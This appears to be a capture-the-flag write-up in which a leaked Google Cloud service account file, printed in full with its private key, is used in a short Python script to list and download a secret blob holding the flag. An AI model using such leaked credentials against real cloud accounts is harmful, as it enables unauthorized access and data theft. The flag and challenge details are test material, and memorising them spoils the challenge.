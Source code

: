 # An unhappy employee

> Fred Chee Hong Kat, a developer for Bug Bug Dev Ptd. Ltd, is a disgruntled employee with poor security hygiene! He has been flagged multiple times for poor password practices! Now, it finally hits him! Our threat intelligence feed discovered a set of leaked credentials available on the Dark Web. Can you help us investigate the matter? We need to know if our company's secrets are compromised!

A JSON file with credentials to a **Google Cloud service account** is provided.

```json
{
  "type": "service_account",
  "project_id": "whitehacks-csg-2021",
  "private_key_id": "7bdfb6adba76a4dbcd9b5fee23bf24fb60512e30",
  "private_key": "-----BEGIN PRIVATE KEY-----\nMIIEvQIBADANBgkqhkiG9w0BAQEFAASCBKcwggSjAgEAAoIBAQCqGwhc9YNpgTV6\nLNycfDn6yQ0JTErW/MrZEy13HrxKk70mpNWCos3sfj3gTmYpQuC3Fq4zCY29RYQF\nqWCMABr0+oNdt4qgfgvwlRMljM4LWbu2SDh2v+/r7Ho7/SoDT4V4iZHve+eJEdr+\nCuV6Oioi8ovrD2DNhS1vwXvqOMnSG3xGZpJlgdbgPdZy3vs090wsJOJzcBgHq1sw\nYL+SDYYrxsKmAfHsmRaLBOOLdNqtBCLXSs9MtR05vdJClWKAYBdPOO/c/WNJs0dL\nhEDQkjsIjDHMlnu6KSwsrGuITthSE8gAAfhEr/FvdRRIRLPPtQgDxnc+vGSLthWQ\n9R0erD4jAgMBAAECggEAAP98mpMELNvJtQhLWQ2vh2WjknDkpYNBK2nd4+uFvkhE\nnVPtPsF2xNLuyQCcv9Q5HknfRsRhFQGx5xiZzOh5QAOyPpwDj7J9nnE5dghv8wgZ\nPlYJIsU4gqFWDEENfIx8Y3snJIkNEDRPHRtyQjfSJHdY0824yyvjWtr/P54KrRVi\nv0uVKb3StrWmE22vJdfcE9S/2lLFOEK1UeZB7mv3Dz96qG/j0nddjFZRCWiyWdnt\ntnovdRrbIltg9M2b1D53MvGuB+IrUxo4m2XAuL9DAAq/tj+eAqy0GpyXeMisGHDI\nDHEnPB/N50UQkVH5EtTjByyVHCrz09Xvqjt9nmQWlQKBgQDaLfkLOMqn38o4L9vf\n3lJE2fwmDlLwuNQIDBMobd070FOcdPZ3U1k/XpsTqykan4Q+ld6FzMb0JANaD532\ntnPWMfmipkbLYAEPtLeMPFMd2f00z9yzBbfJz+CtLfFKCX2QTB6wJ5y7tSao4OvW\n3YL5Y+Nw2tkor/6tRd65WEQT7wKBgQDHl7V2UFhWQx+JkhG0HwudVPAFQGmxG59Y\nEEcLiXWLy/G2udW1nh41P8/DaKEh5LMdk7eQ4ULkCGdecddf5wWXunTqTOJlzAmh\nX0x1qTr0Xaod8i/KgghV1ddW52tI9xu3uGn9Br6iiWQqkJmEMSPV/bDmmRwpsJjH\nuSx11JV1DQKBgQCwrBuH38QS7l/k4bRNcszxngbVljHJZhGkNoro6RYF0mtyPTA7\nbg3OB8DRy37sZRGEUH2xoSHWHrdsHUtPtWzVnQBFmhmnpCUX38Hl2A+CE7w7ILrZ\naJ7r195aveIujsLTryAGiv0a7tTQWdn/0r21TxKkl0LT9Lfo/bQeKABwlwKBgFZP\nMFU9YTXMSPMAi09MrYUXmcNrm0jPHRTD1TUT+BS/2IKf0d57xaxZL8rcj/FMKHh9\nzD+GaZqaV7jrmasLB8wZAT3giXZjyTZTM4kd6TSK3GmetTPpDxmvIzOdVzNySDYm\nNQ8Jv54hs4MEjJ4xccGztq/BPgB5MVgMp0E88HRxAoGAJoaIv410ekQoaVX9L8Rl\no6ZjWD6GTMT6Uw2VSIdBg0pP23RIIheWj5M8g8YMPvelyAOZBS8L9Z2rZbgzZ9PJ\nHSMTVuGVmj/Ygz5axYTQUDUyqZavO6ILcdlfXhe1Ycf/nfCyFcM0yS1vkNvFvYbX\nqxBm8Zs13zFUFhF5+0jkhFE=\n-----END PRIVATE KEY-----\n",
  "client_email": "fredchkmsa@whitehacks-csg-2021.iam.gserviceaccount.com",
  "client_id": "106171336443241412522",
  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
  "token_uri": "https://oauth2.googleapis.com/token",
  "auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
  "client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/fredchkmsa%40whitehacks-csg-2021.iam.gserviceaccount.com"
}
```

We can use the python library [`google-cloud-storage`](https://pypi.org/project/google-cloud-storage/) to check if there is anything on **Cloud Storage** accessible by the service account.

```python
from google.cloud import storage

storage_client = storage.Client.from_service_account_json("creds.json")

buckets = list(storage_client.list_buckets())
print(buckets)  # There's a bucket called "fred_chkn".

blobs = list(storage_client.list_blobs("fred_chkn"))
print(blobs)  # There's a blob called "secret.txt"

# Download the blob
storage_client.bucket("fred_chkn").blob("secret.txt").download_to_filename("flag.txt")
```

The flag can be found inside the downloaded blob.

`WH2021{ea$y_Cl0uD_Ch@ll3ng3}`
